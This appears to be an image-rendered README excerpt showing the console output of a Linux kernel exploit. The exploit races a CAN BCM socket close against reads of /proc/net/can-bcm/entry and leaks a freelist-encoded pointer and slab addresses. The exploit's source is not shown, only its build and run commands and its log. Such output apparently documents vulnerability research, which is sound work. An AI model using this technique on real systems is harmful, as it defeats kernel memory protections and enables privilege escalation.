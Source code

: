 ```
# make verbose2
# ./exploit
[*] - Disabling stdout buffering
[*] - Checking number of CPUs available
[*] - CPUs available: 4
[*] - Setting up CPU affinity spare thread CPU 3
[*] - Socket created successfully
[*] - Socket connected successfully
[*] - CAN BCM entry: 26120
[*] - Setting up CPU affinity main thread CPU 2
[*] - Preparing the cache
[*] - Allocating 1600 objects
[*] - Freeing 16 objects
[*] - Allocating target object
[*] - Setting up CPU affinity spare thread CPU 3
[*] - Freeing remaining objects
[*] - Creating close thread
[*] - Creating read threads
[*] - The race starts, releasing race barriers
[*] - Setting up CPU affinity race02 (read) thread to CPU 2
[*] - Setting up CPU affinity race01 (close) thread to CPU 2
[*] - Closing socket (race01)
[*] - Waiting...
[*] - Finishing read threads
[*] - Reading /proc/net/can-bcm/entry (race02)
[*] - 16 objects obtained
[*] - Validating the first entry
[*] - First entry validated
[*] - Validating the other 15 objects
[*] - All objects validated

Leaked freelist encoded null pointer: 0x42c9f8645538af90


slab[0] =	0xffff88800a836000
slab[1] =	0xffff88800a836200
slab[2] =	0xffff88800a836400
slab[3] =	0xffff88800a836600
slab[4] =	0xffff88800a836800
slab[5] =	0xffff88800a836a00
slab[6] =	0xffff88800a836c00
slab[7] =	0xffff88800a836e00
slab[8] =	0xffff88800a837000
slab[9] =	0xffff88800a837200
slab[10] =	0xffff88800a837400
slab[11] =	0xffff88800a837600
slab[12] =	0xffff88800a837800
slab[13] =	0xffff88800a837a00
slab[14] =	0xffff88800a837c00
slab[15] =	0xffff88800a837e00

[*] - Finishing close thread
[*] - Exiting...
#
```
